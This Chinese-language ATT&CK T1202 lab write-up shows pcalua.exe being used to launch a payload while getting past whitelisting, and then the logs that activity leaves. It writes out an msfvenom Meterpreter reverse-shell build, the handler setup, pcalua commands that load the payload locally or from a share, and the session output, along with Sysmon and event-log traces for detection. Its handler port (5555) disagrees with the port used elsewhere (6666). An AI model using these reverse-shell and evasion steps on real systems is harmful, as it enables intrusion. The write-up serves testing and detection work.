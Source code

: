 # T1202-win-间接命令执行-基于Pcalua执行payload(白名单)

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Windows进程兼容性助理(Program Compatibility Assistant)的一个组件。

说明：Pcalua.exe所在路径已被系统添加PATH环境变量中，因此，Pcalua命令可识别

Windows 7 默认位置：

C:\Windows\System32\pcalua.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=6666 -f exe > shell.exe
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 5555
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
Pcalua -m -a \\192.168.1.119\share\shell.exe #可远程加载

Pcalua -m -a C:\Users\12306Br0\Desktop\a\shell.exe #可本地加载
```

#### 反弹shell

```bash
Msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:6666
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 4 opened (192.168.126.146:6666 -> 192.168.126.149:49163) at 2020-04-19 00:12:39 +0800

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
meterpreter > getpid
Current pid: 2804
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.744
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ProcessId: 2148
Image: C:\Windows\System32\pcalua.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Program Compatibility Assistant
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName:
CommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=280038828C2412F3867DDB22E07759CB26F7D8EA
ParentProcessGuid: {bb1f7c32-26ca-5e9b-0000-00109cdf0d00}
ParentProcessId: 2724
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.775
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-0010621a0e00}
ProcessId: 2804
Image: C:\Users\12306Br0\Desktop\a\shell.exe
FileVersion: 2.2.14
Description: ApacheBench command line utility
Product: Apache HTTP Server
Company: Apache Software Foundation
OriginalFileName: ab.exe
CommandLine: "C:\Users\12306Br0\Desktop\a\shell.exe"
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=C11C194CA5D0570F1BC85BB012F145BAFC9A4D6C
ParentProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ParentProcessId: 2148
ParentImage: C:\Windows\System32\pcalua.exe
ParentCommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x864
新进程名: C:\Windows\System32\pcalua.exe

EventID：4688
进程信息:
新进程 ID: 0xaf4
新进程名: C:\Users\12306Br0\Desktop\a\shell.exe

EventID：5156
应用程序信息:
进程 ID: 2804
应用程序名称: \device\harddiskvolume2\users\12306br0\desktop\a\shell.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49163
目标地址: 192.168.126.146
目标端口: 6666
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件和/或生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 参考推荐

MITRE-ATT&CK-T1202

<https://attack.mitre.org/techniques/T1202/>

渗透测试-基于白名单执行payload--Pcalua

<https://blog.csdn.net/qq_17204441/article/details/89881795>
